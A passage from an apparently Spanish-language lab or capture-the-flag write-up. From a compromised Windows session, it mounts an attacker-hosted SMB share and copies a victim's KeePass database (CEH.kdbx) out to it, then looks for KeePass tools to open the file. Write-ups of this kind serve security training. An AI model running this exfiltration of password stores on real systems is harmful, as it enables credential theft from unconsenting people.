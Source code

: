 Creamos una unidad lógica sincronizada con nuestro recurso compartido:

```bash
PS C:\Users\kohsuke\Documents> New-PSDrive -Name "SharedFolder" -PSProvider "FileSystem" -Root "\\10.10.14.24\smbFolder"

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
SharedF...                             FileSystem    \\10.10.14.24\smbFolder                                           


PS C:\Users\kohsuke\Documents>
```

Y ahora nos copiamos el archivo a nuestra máquina de atacante:

```bash
PS C:\Users\kohsuke\Documents> copy CEH.kdbx SharedFolder:\CEH.kdbx
PS C:\Users\kohsuke\Documents>
```

```bash
❯ file CEH.kdbx
CEH.kdbx: Keepass password database 2.x KDBX
```

Ahora debemos de descargarnos la utilidad que nos ayude a abrir el archivo, así que buscamos **keepass**:

```bash
❯ apt search keepass
Ordenando... Hecho
Buscar en todo el texto... Hecho
gnome-passwordsafe/rolling 5.0-2 all
  Password manager for GNOME

keepass2/rolling 2.47+dfsg-2 all
  Password manager

keepass2-doc/rolling 2.47+dfsg-2 all
  Password manager - Documentation

keepass2-plugin-keepasshttp/rolling 1.8.4.2+dfsg1-2.1 all
  KeePass2 plugin to expose password entries securely over HTTP

keepassx/rolling 2.0.3+git20190121.1682ab9-2.2 amd64
  Cross Platform Password Manager

keepassxc/rolling 2.6.2+dfsg.1-1 amd64
  Cross Platform Password Manager

kpcli/rolling 3.1-3.1 all
  command line interface to KeePassX password manager databases

libfile-keepass-perl/rolling 2.03-1.1 all
  interface to KeePass V1 and V2 database files

python3-pykeepass/rolling 3.2.1-2 all
  KeePass database library - Python 3.x Module

webext-keepassxc-browser/rolling 1.7.4+repack1-2 all
  Web browser extension to organize web site credentials in KeePassXC
```
